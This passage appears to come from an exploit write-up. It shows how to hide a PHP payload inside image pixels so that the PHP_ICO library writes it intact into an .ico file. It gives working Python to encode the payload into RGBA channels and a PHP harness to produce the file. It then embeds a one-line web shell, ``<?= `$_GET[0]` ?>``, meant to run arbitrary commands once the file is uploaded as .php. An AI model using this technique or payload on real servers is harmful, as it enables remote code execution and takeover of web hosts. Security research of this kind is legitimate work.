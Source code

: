 We split the payload in chunks of 4 (since there are 4 channels: red, green, blue and alpha). By trial and error I
saw that the format of each chunk is `0xGGRRAABB` in order to be written in the final file as `0xAARRGGBB` and still
reconstruct the original payload.

```py
image = Image.new("RGBA", (width, height))
pixels = image.load()

for y in range(height):
    for x in range(width):
        index = y * width + x
        color = colors[index] if index < len(colors) else 0
        r = (color >> 24) & 0xFF
        g = (color >> 16) & 0xFF
        b = (color >> 8) & 0xFF
        a = color & 0xFF
        pixels[x, height - y - 1] = (r, g, b, a)

image.save("exploit.png")
```

We use some bit shifts to retrieve the channels once again, and write them into the pixels. I used the `.png` format,
as `.bmp` seemed to lose the alpha channel in the PHP code. The `.png` format worked fine, and the library still created
the `.ico` file using BMP format.

In order to test the exploit, we need to call the PHP library. The library uses the GD library, which needs to be 
installed and activated. In Arch Linux the library can be installed using `sudo pacman -Syy php-gd` and activated by
uncommenting `extension=gd` in `/etc/php/php.ini`.

```php
<?php

require_once "src/class-php-ico.php";

$ico = new PHP_ICO("exploit.png", [[32, 32], [64, 64]]);
$ico->save_ico("final.ico");
```

Let's use `xxd` to inspect the `.ico` file:

![](03.png)

We successfully wrote the string into the `.ico` file. When uploading it as `.php`, it will be interpreted as PHP code,
which will display characters as-is until the first PHP directive.

Let's see what happens if we try to embed a payload like ```<?= `$_GET[0]` ?>```:

![](04.png)
